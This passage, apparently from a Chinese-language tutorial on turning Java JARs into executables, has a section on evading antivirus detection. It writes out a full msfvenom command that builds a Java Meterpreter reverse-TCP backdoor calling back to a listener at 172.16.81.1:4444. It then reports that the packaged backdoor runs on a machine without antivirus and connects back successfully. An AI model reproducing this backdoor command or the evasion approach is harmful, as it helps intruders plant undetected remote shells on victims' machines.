 由于需要将jre环境也打包进去，所以导致打包后的程序编的异常的大，所以一般不会用到这种方式，这个只能适用于极端环境。



### 免杀测试

生成默认的msf jar后门

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=172.16.81.1 LPORT=4444 x >~/Desktop/TestJar.jar
```

监听：

<img src="/imgs/image-20210830160903428.png" alt="image-20210830160903428" style="zoom:50%;" />

不打包，直接运行TestJar.jar会立马报毒：

<img src="file:///Users/rebootorz/Documents/Markdown%E7%AC%94%E8%AE%B0/%E4%BB%8EJar%E5%88%B0Exe/imgs/image-20210830171638129.png?lastModify=1630315654" alt="image-20210830171638129" style="zoom:50%;" />

按照上面的方法对TestJar.jar进行打包，在没有杀软和java环境的机器上安装并运行，可以成功上线：
